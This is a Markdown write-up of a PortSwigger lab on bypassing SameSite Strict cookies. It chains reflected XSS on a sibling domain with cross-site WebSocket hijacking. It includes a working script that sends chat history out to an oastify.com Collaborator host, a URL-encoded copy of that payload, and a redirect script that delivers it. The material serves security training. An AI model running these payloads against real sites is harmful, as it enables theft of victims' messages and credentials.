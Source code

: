 # SameSite Strict bypass via sibling domain

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)'s live chat feature is vulnerable to [cross-site WebSocket hijacking (CSWSH)](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking).

## Reproduction and proof of concept

### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so it may be vulnerable to CSWSH if you can bypass any `SameSite` cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy -> WebSockets history** tab. When refreshing the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

![CSRF](../../_static/images/csrf8.png) 

### Confirm the CSWSH vulnerability
 
1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. 
2. In the browser, go to the **exploit server** and use the following template to create a script for a CSWSH proof of concept:

```text
<script>
    var ws = new WebSocket('wss://0add0076049f4a6fc1b319b700a00066.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://0yzg09yhcj2i5tf7f8z1wmsq1h78vyjn.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. **Store** and **view the exploit**.
4. In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand-new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by the script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![CSRF](../../_static/images/csrf9.png) 

### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:

```text
<script>alert(1)</script>
```
    
5. Observe that the `alert(1)` is called, confirming that this is a viable reflected XSS vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request** method to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

### Bypass the SameSite restrictions

1. Recreate the CSWSH script tested on the exploit server earlier.
2. URL encode the entire script:

```text
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%64%30%30%37%36%30%34%39%66%34%61%36%66%63%31%62%33%31%39%62%37%30%30%61%30%30%30%36%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6f%79%71%34%30%78%79%35%63%37%32%36%35%68%66%76%66%77%7a%70%77%61%73%65%31%35%37%77%76%6f%6a%64%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request just tested, but use the URL-encoded CSWSH payload as the `username` parameter, for example:

```text
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

4. Store and view the exploit.
5. In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your `session` cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### Deliver the exploit chain

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the Collaborator tab and click Poll now.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.

![CSRF](../../_static/images/csrf10.png) 

6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.

## Exploitability

An attacker needs to use an exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text. 
